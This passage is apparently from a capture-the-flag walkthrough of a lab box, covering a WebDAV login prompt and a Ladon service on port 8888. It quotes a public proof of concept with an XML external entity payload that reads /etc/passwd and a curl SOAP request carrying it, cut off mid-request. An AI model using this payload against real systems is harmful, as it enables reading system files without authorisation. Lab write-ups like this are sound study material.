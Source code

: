 Visiting `/webdav` required credentials:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Weak credentials don't work, so let's come back to this later. Port 8888 hosted Ladon Service Catalog:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

There are exploits for this:

```
$ searchsploit ladon
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Ladon Framework for Python 0.9.40 - XML External Entity Ex | xml/webapps/43113.txt
----------------------------------------------------------- ---------------------------------
```

Within the proof of concept code, there's a hint towards this box!

```
------------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE uid [
    <!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
------------------------------------------------------------------------

The following command exploits this vulnerability by including the &passwd;
entity as the username in the request:

------------------------------------------------------------------------
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:helloService\"><soapenv:Header/>
```